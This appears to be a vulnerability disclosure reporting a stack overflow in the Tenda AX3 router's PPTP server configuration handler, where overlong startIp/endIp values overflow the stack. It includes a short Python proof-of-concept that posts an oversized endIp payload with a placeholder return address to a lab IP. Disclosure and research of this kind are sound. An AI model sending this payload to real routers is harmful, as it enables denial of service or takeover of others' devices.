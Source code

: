 # Stack Overflow Vulnerability in Tenda Router AX3 ([V16.03.12.11]([AX3 升级软件](https://www.tenda.com.cn/material/show/103476)))

## Overview

In the latest version V16.03.12.11 of the Tenda Router AX3, a critical security vulnerability exists. This vulnerability occurs in the `formSetPPTPServer` function when handling requests from the `/goform/SetPptpServerCfg` page.

## Vulnerability Details

During the processing of the request, the `endIp` and `startIp` parameters are concatenated onto the stack. 

This concatenation operation does not perform effective length checks, leading to a stack overflow, **which can result in denial of service (DoS) or remote code execution (RCE)**.

![image-20250204014837728](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204014837728.png)

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetPptpServerCfg"

retaddr="bbbb"
payload = "1.2.3."+"a"*0x2ec+p32(retaddr)
data = {
    "startIp": "1.2.3.4",
    "endIp": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo

![image-20250204020920791](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204020920791.png)

![image-20250204021117739](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204021117739.png)

![image-20250204021238249](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204021238249.png)

![image-20250204021336279](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204021336279.png)